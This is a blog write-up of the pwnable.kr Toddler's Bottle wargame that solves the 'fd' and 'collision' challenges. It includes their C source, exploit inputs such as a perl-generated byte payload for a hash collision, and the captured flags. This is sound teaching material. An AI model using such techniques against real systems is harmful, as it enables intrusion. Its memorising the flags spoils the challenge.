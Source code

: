 ```yaml
---
layout : post
title : pwnable.kr Toddler's Bottle (easy) write-up
comments : true
---
```


[pwnable.kr](http://pwnable.kr) has a collection of pwning problems with a wide range of difficulty. This article is the write-up for Toddler's Bottle (easy) section.  

**fd**  (10/26/2015)  

This is the easiest problem and is about Linux file descriptor. As given, connect to the server `ssh fd@pwnable.kr -p 2222`.  

```
fd@ubuntu:~$ ls -al
total 32
drwxr-x---  4 root fd   4096 Aug 20  2014 .
dr-xr-xr-x 55 root root 4096 Sep 20 23:22 ..
d---------  2 root root 4096 Jun 12  2014 .bash_history
-r-sr-x---  1 fd2  fd   7322 Jun 11  2014 fd
-rw-r--r--  1 root root  418 Jun 11  2014 fd.c
-r--r-----  1 fd2  root   50 Jun 11  2014 flag
dr-xr-xr-x  2 root root 4096 Aug 20  2014 .irssi
```

It seems that you can read the source code for the program `fd`.

```C
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

So it seems that when `buf == "LETMEWIN\n`, you can get the flag. Since `fd == 0` is `stdin`, all you need to do is to give 0x1234 (4660 in decimal) as argv[1] and input "LETMEWIN\n"  

```
fd@ubuntu:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

Flag is: __mommy! I think I know what a file descriptor is!!__  
  

**collision** (10/26/2015)  
Similar to `fd`, you can read the source code for the program `col`.  

```C
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
	int* ip = (int*)p;
	int i;
	int res=0;
	for(i=0; i<5; i++){
		res += ip[i];
	}
	return res;
}

int main(int argc, char* argv[]){
	if(argc<2){
		printf("usage : %s [passcode]\n", argv[0]);
		return 0;
	}
	if(strlen(argv[1]) != 20){
		printf("passcode length should be 20 bytes\n");
		return 0;
	}

	if(hashcode == check_password( argv[1] )){
		system("/bin/cat flag");
		return 0;
	}
	else
		printf("wrong passcode.\n");
	return 0;
}
```

At `int *ip = (int*)p`, `const char *p` is casted to `int *`. Since the size of `int` is 4 bytes and the size of `char` is 1 byte, the sum of five `int` blocks needs to be `0x21DD09EC`. Since `0x21DD09EC = 0x06C5CEC8 * 4 + 0x06C5CECC` and the system is little-endian, your injection code should be:  

```
col@ubuntu:~$ ./col $(perl -e 'print "\xc8\xce\xc5\x06"x4 . "\xcc\xce\xc5\x06"')
daddy! I just managed to create a hash collision :)
```

Flag is: __daddy! I just managed to create a hash collision :)__  
  

**flag** (10/26/2015)  
This is a reversing problem.
